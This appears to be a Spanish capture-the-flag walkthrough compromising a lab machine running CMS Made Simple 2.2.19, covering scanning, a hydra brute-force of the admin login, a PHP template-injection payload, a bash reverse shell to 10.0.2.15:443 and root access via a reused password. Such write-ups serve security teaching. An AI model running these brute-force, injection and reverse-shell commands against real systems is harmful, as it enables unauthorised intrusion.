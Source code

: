 
##### Hacemos un ping a la maquina:

```bash
ping -c 1 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.089 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.089/0.089/0.089/0.000 ms
```


##### Hacemos un escaneo con nmap:

```bash
nmap -p- --open -sS --min-rate 5000 -sVC -vvv -n -Pn 172.17.0.2 -oN escaneo_nmap

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 d1:19:f1:fa:48:16:af:8a:4a:89:2d:78:89:e9:2d:94 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBG36eG906mrEH+PhkX+d0kmBBpxW4ECArmbLYCP/Q3nWm464LsDcafYElms/gd6ol5iFMM3XLdWyEQiyy/MfZDM=
|   256 b8:b7:2e:64:3e:ee:c3:2e:2e:be:99:07:4e:02:4f:16 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIL/OHCYyijgZMo6u1RkpTLxjluOVfmcqxgB3eL+iMUpp
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Vemos que tenemos el puerto 22 (SSH) y el puerto 80 (HTTP) abierto. Vamos a investigar que hay por el puerto 80.


Vemos solamente la platilla por defecto de apache. Vamos hacer algo de fuzzing web.

---

Hacemos un gobuster con los siguiente parámetros:

```bash
> gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
```

Vemos que no nos encuentra nada pero viendo el código fuente hasta el final vemos algo que nos puede servir, veo lo siguiente:

```bash
<!-- cms made simple is installed here - Access to it - cmsms -->
```

Vamos al navegador para usarlo y vemos que si funciona:

http://172.17.0.2/cmsms/


Nos encontramos con cms, una herramienta para poder hacer paginas web. Lo primero que debemos hacer es mirar su versión, a lo que nos encontramos esto: ***This site is powered by [CMS Made Simple](http://www.cmsmadesimple.org) version 2.2.19***

---
Buscamos en Internet algo que nos sirva, algún exploit de esta version y lo encontramos, ahora debemos hacer algunas cosas para que funcione. Vamos a hacer fuzzing de nuevo pero ahora sabiendo la existencia del cms.

```bash
> gobuster dir -u http://172.17.0.2/cmsms -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.tx 
```

/modules
/uploads          
/doc                  
/admin                
/assets               
/lib                  
/tmp

Ahora si podemos ver que nos encuentra varias cosas. Vamos a mirar en el directorio admin. Nos lleva al panel de login:


---

##### Vamos hacer un ataque de fuerza bruta al login web

Utilizamos el siguiente comando para hacerlo:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt.gz "http-post-form://172.17.0.2/cmsms/admin/login.php:username=^USER^&password=^PASS^&loginsubmit=Submit:User name or password incorrect"
```

Es un clásico hydra solo con pequeños cambios. La ruta de **/cmsms/admin/login.php** la vemos en Burp en la parte de POST. sustituimos usuario y contraseña por lo que vemos en el comando y ponemos el mensaje de error que nos lanza cuando queremos entrar. Todo lo demás es igual.


Después de eso vemos que funciona y nos da la contraseña para poder entrar

---

Una vez que estamos dentro ahora si seguimos las instrucciones que encontramos sobre el exploit.

---
Hacemos tal cual todo y vemos que efectivamente funciona. Nos refleja el numero 49. Esto nos indica que es vulnerable a un **ssti (server side template injection)** ahora vamos a buscar algún payload que nos ayude con esto.
> *github payloads all the things ssti*


buscando encontramos algo que nos puede ayudar 
https://github.com/capture0x/CMSMadeSimple

Usamos el payload:
```
<?php echo system('id'); ?>
```

Al ejecutarlo vemos que si es vulnerable.

---
Ahora vamos hacer una reverse shell


ponemos nuestra IP, el puerto por donde queremos ponernos en escucha y copiamos y pegamos sustituyendo la parte de 'id' por esto:

```
<?php echo system('bash -c "bash -i >& /dev/tcp/10.0.2.15/443 0>&1"'); ?>
```

Tiene unos pequeños ajustes para que funcione. Antes de ejecutarlo nos ponemos en escucha por el puerto 443 de la siguiente manera:

```
nc -lvnp 443 
```
![[lsito.png]]Listo, estamos dentro.

---

### Tratamiento de la TTY


mi ubico en la raíz
```bash
cd /
```

enter:
```bash
script /dev/null -c bash
```

enter:
```bash
pongo ctrl + z
```

enter:
```bash
stty raw -echo; fg
```

enter:
```bash
reset xterm
```

después creo dos variables de entorno que son:

```bash
export SHELL=bash
export TERM=xterm
```

y listo ya quedo, puedo usar bien clear, ctrl + c y no se pierde conexión.

---
 Una vez terminado eso intentamos reutilizar primero que nada la contraseña que ya se había usado anteriormente:**chocolate**
 y vaya sorpresa, logramos ser root.

---
